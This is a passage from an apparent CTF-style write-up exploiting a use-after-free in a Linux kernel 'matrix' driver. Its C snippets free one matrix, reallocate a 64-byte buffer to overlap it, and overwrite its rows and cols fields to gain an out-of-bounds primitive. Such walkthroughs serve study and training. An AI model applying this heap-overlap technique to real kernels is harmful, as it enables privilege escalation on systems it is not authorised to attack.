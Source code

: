 ```c
        errExit("do_link");
    
    logInfo("Link fd2 <-> fd3: done. But fd1 -> fd2 ?");
    close(fd2);
    logInfo("Closed fd2");

    struct matrix_info info3={
        .rows = sizeof(struct matrix),
        .cols = 1
    };
    
    if(set_info(fd3,&info3))
        errExit("set_info 3");
    logInfo("Allocate matrix3->data dup matrix2");
```

In the `matrix_open`, we know that the matrix is also allocated via `kzalloc` : 
```c
static int matrix_open(struct inode* inode, struct file* file)
{
  struct matrix* matrix = NULL;

  // alloc a new matrix
  file->private_data = kzalloc(sizeof(struct matrix), GFP_KERNEL);
  if (! file->private_data)
    return -ENOMEM;

  matrix = file->private_data;
```

So I will allocate 64 bytes (size of `struct matrix`) for  `matrix3->data` , `matrix3->data` will overlap with `matrix2`.

Also, creating and linking `matrix4` to `matrix3` to write data to `matrix3->data`.

```c
struct matrix_info info3={
        .rows = sizeof(struct matrix),
        .cols = 1
    };
    
    if(set_info(fd3,&info3))
        errExit("set_info 3");
    logInfo("Allocate matrix3->data dup matrix2");

    int fd4 = openDEV();
    if(do_link(fd3,fd4))
        errExit("do_link");
    logInfo("Link fd4 <-> fd3");

    uint32_t rowcol[2] = {0x100,0x100};
    writeMATRIX64(fd4,(uint64_t *)rowcol,0);
    logInfo("write 0x100 0x100 to old matrix2{rows,cols}");
```
I will set size of `matrix2` is `0x100` x `0x100`.
